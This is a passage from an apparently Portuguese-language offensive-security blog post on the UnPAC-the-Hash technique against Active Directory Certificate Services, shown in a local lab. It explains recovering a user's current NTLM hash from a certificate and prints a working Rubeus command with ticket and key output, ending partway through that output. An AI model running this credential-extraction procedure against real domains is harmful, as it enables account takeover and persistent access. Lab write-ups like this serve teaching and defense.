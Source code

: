<br>

As hashes NTLM serão então recuperáveis ​​após um fazer um TGS-REQ através de U2U, combinado com S4U2self, que é uma solicitação de Service Ticket feita ao KDC onde o usuário pede para se autenticar.

<br>

O diagrama abaixo mostra como o UnPAC-The-Hash funciona, mas porque essa técnica é vantajosa para nós atacantes? A vantagem é que ao gerar o certificado de um usuario e utilizar a técnica você sempre irá conseguir a HASH NTLM atual daquele usuario ou seja:
- Mesmo que o usuario altere sua senha, o certificado irá continuar valido para uso(Uma das outras vantagens do ADCS também LOLLL)
- Mesmo que o usuario altere sua senha, com UnPAC você sempre irá conseguir extrair a hash ntlm da senha atual dele.

![unpac](/assets/unpac.png)

Futuramente combinaremos essa técnica a outra, conhecida como CertSync que é uma forma de realizar "DCSync" porém utilizando certificados. Agora vamos realizar isso em laboratorio, localmente tenho um comigo um ambiente AD já com ADCS e templates configuradas.

<br>

Para realizar essa técnica a unica premissa é que você precisa saber a senha do certificado, então sempre que for executar que seja de um certificado que você tenha criado, ou algum certificado com a senha fraca que você conseguiu brutar

```powershell
    .\Rubeus.exe asktgt /getcredentials /user:paulo.victor /certificate:"C:\Tools\esc4-DA.pfx" /password:Senha /domain:corp.local /dc:corp-dc /show

    ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.2.1

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
    [*] Using domain controller: 10.0.0.10:88
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

    doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlh....

    ServiceName              :  krbtgt/corp.local
    ServiceRealm             :  CORP.LOCAL
    UserName                 :  paulo.victor
    UserRealm                :  CORP.LOCAL
    StartTime                :  1/10/2025 11:33:04 PM
    EndTime                  :  1/11/2025 9:33:04 AM
    RenewTill                :  1/17/2025 11:33:04 PM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  rc4_hmac
    Base64(key)              :  YJHc9+T6Rdt8PrWc5eEdZQ==
    ASREP (key)              :  51901227A9A7C2FDF729D40313291627

    [*] Getting credentials using U2U

    CredentialInfo         :
        Version              : 0
```